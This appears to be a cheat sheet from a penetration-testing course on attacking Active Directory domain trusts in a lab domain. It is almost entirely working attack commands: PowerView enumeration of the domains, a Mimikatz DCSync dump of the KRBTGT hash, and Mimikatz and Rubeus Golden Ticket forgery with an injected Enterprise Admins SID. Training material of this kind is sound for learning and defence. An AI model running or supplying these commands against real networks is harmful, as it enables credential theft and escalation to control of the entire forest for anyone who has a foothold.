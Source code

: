 #### Using Get-DomainTrustMapping
```PowerShell
Get-DomainTrustMapping
```
PowerView tool used to perform a domain trust mapping from a Windows-based host.

#### Checking Users in the Child Domain using Get-DomainUser
```PowerShell
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```
PowerView tools used to enumerate users in a target child domain from a Windows-based host.

### ExtraSids Attack - Mimikatz

#### Obtaining the KRBTGT Account's NT Hash using Mimikatz
```PowerShell
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```
Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash` from a Windows-based host.

#### Using Get-DomainSID
```PowerShell
Get-DomainSID
```
PowerView tool used to get the SID for a target child domain from a Windows-based host.

#### Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```PowerShell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
PowerView tool used to obtain the `Enterprise Admins` group's SID from a Windows-based host.

#### Using `ls` to Confirm No Access
```PowerShell
ls \\academy-ea-dc01.inlanefreight.local\c$
```
Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host.

#### Creating a Golden Ticket with Mimikatz
```PowerShell
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
Uses `Mimikatz` to create a `Golden Ticket` from a Windows-based host .

### ExtraSids Attack - Rubeus

#### Creating a Golden Ticket using Rubeus
```PowerShell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
Uses `Rubeus` to create a `Golden Ticket` from a Windows-based host.
